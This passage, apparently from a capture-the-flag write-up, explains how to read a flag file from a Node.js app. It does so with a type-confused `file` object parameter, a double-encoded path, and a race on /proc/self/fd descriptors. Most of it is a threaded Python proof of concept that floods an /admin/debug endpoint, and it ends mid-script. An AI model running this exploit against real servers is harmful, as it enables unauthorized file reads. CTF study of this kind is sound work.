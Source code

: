 Because now our parameter is an `object` and it doesn't have a function named `includes`. This is where the race conditions comes in. Since, the `readFile` function is being successfully called, a file descriptor must have opened as well for this. 
This is a very short window. If we can race the descriptor when the file is opened, we can read the flag. However, we can't get just one descriptor as the time in which it opens is way too short. To cope this, we can generate infinity descriptors and try to race one. 
This worked actually and the final poc would look like:

```python
import threading
import requests
import time
import socket

class EXPLOIT:

    __ENCODED = "/fl%2561g.txt"
    __TARGET = "http://localhost:3000"
    __DICTREAD = "file[href]=a&file[protocol]=file:&file[hostname]=&file[pathname]={}"
    __DESCRIPTPOR = "/proc/self/fd/26"

    def __init__(self):
        self.url = """{}/admin/debug?{}""".format(
            self.__TARGET,
            self.__DICTREAD
        ).format(
            self.__ENCODED
        )
        self.url2 = """{}/admin/debug?file={}""".format(
            self.__TARGET,
            self.__DESCRIPTPOR
        )

    def request(self, raw_data, wait=False):
        p = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        p.connect(("192.168.2.69", 8000))
        p.send(raw_data)
        if wait:
            data = p.recv(5000)
            if "flag" in data.decode():
                print("Flag: ", data)
        p.close()

    def baby_maker(self, url):
        print("Started Baby Maker...")
        while True:
            t = threading.Thread(target=self.request, args=(url,))
            t.daemon = True
            t.start()

    def engage(self):
        url = b"GET "+ self.url.encode() + b" HTTP/1.1\r\nHost: localhost:8000\r\n\r\n"
        url2 = b"GET " + self.url2.encode() + b" HTTP/1.1\r\nHost: localhost:8000\r\n\r\n"

        t = threading.Thread(target=self.baby_maker, args=(url,))
        t.daemon = True
        t.start()

        while True:
            t2 = threading.Thread(target=self.request, args=(url2, True))
            t2.daemon = True
            t2.start()

if __name__ == "__main__":
```